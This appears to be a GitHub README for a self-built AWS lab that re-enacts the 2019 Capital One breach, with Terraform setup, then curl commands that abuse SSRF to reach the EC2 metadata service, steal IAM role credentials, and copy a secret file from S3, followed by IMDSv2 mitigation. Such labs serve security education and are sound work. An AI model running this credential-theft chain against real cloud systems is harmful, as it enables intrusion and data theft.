 # CapitalOne-Breach-Simulation-Lab
Code and artifacts for the Adversary Emulation phase of a Root Cause Analysis of the 2019 Capital One breach report.

Based on the lab by Shay Raize Meshulam: [shayrm/CapitalOne-SSRF-demo](https://github.com/shayrm/CapitalOne-SSRF-demo)

# Purpose

This lab is designed for educational purposes to validate my CAPITAL One breach 2019 root cause analysis report to show how SSRF vulnerabilities can be exploited in a cloud environment, and then the danger of overly permissive IAM roles, how compromised EC2 metadata can lead to data breach from S3, and the effectiveness of IMDSv2 for mitigation. The lab was followed based on the GitHub repository that Say Raize Meshulam published as guidance, and modifications were made from the original main.tf file and the readme file addressed errors from the previous instruction.

#Prerequisites

AWS Account(Free tier is fine), EC2 Key Pair, AWS CLI, Terraform, Main.tf file, Local secret CSV file.

#Setup Instructions
1. Download main.tf and top_secret_file.csv into the local directory.
2. Modify main.tf. Please refer to the comments in the file and ensure your configuration is valid—region, key_pair, ubuntu-ami, bucket_name need to be changed.
3. Initialize Terraform by opening the terminal.tf file and local secret CSV file are installed and run:

terraform init

4. Validate Configuration: 

```bash
terraform fmt
terraform validate
terraform plan
```

5. Deploy the Lab:

terraform apply

Check that public_ip and instance_id are displayed correctly in the terminal.

Note the public_ip and instance_id from the output.

# Instructions for running  Attack Simulation

1. Check Server Response:

curl http://<public_ip>/

Replace <public_ip> with your public IP that you previously obtained on the transform apply stage.

2. Exploit SSRF to List Metadata:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)"


3. Navigate to Credentials:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/](http://169.254.169.254/latest/meta-data/iam/)"
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

The output will be the role name: c-demo-role


4. Steal Credentials: 

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)c-demo-role/"


The output will be a JSON object containing AccessKeyId, SecretAccessKey, and Token.


5. Configure Attacker Profile:

aws configure set aws_session_token [YOUR_TOKEN] --profile c-demo

aws configure --profile c-demo

Enter stolen AccessKeyId, SecretAccessKey, region (e.g., us-east-2), format (json)

Copy the credentials from the JSON output and leave the token blank at the aws configure --profile c-demo stage, you already entered it.



6. Verify Access dnd List Buckets:

aws s3 ls --profile c-demo


You should be able to see your unique bucket name

7. Exfiltrate Data: 

aws s3 ls s3://<bucket_name> --profile c-demo
aws s3 cp s3://<bucket_name>/top_secret_file.csv ./ --profile c-demo

(Replace <bucket_name> with your unique bucket name)

8. Verify that it is downloading to the correct directory and check the content inside
   ls
   cat top_secret_file

#Mitigation

Enforce IMDSv2:

aws ec2 modify-instance-metadata-options --instance-id "<instance_id>" --http-tokens required --http-endpoint enabled

Use instance_id with the ID from the terraform apply output


Verify Mitigation: 
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

It should fail when you try to attempt it again.

#Clean Up

To avoid unexpected AWS charges, destroy all created resources after you finish your activity:

terraform destroy
